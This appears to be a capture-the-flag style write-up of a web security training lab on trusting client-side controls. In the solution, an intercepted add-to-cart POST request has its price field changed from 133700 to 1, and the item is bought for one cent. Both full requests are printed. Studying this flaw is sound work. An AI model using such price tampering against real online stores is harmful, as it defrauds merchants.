






# Excessive trust in client-side controls

## Lab Description :


## Overview :
A fundamentally flawed assumption is that users will only interact with the application via the provided web interface. This is especially dangerous because it leads to the further assumption that client-side validation will prevent users from supplying malicious input. However, an attacker can simply use tools such as Burp Proxy to tamper with the data after it has been sent by the browser but before it is passed into the server-side logic. This effectively renders the client-side controls useless.

## Solution :
First login as wiener.

Analyze the application flow -
Click on any product, we can see an add to cart button.



Now 1 item has been added to cart.



Clicking on the cart button takes us to final payment page.



On clicking Place Order, we have sucessfully placed our order.

Price manipulation -
In the above process, when clicking on add to cart, the following POST request is sent to /cart.
```html
POST /cart HTTP/2
Host: 0a6900ba032b87d78113edfd002600ac.web-security-academy.net
Cookie: session=6o4GIfX8RIvqB7az6du7CifCTWWWASz2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Origin: https://0a6900ba032b87d78113edfd002600ac.web-security-academy.net
Referer: https://0a6900ba032b87d78113edfd002600ac.web-security-academy.net/product?productId=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

productId=1&redir=PRODUCT&quantity=1&price=133700
```
Notice that there is a parameter price=1337.00. We can try modifying the parameter to some other value.
```html
POST /cart HTTP/2
Host: 0a6900ba032b87d78113edfd002600ac.web-security-academy.net
Cookie: session=6o4GIfX8RIvqB7az6du7CifCTWWWASz2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Origin: https://0a6900ba032b87d78113edfd002600ac.web-security-academy.net
Referer: https://0a6900ba032b87d78113edfd002600ac.web-security-academy.net/product?productId=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

productId=1&redir=PRODUCT&quantity=1&price=1
```
Now the price has been changed to $0.01



Click place order & the lab is solved.



#### Visit The Next Page For The Next Level :)
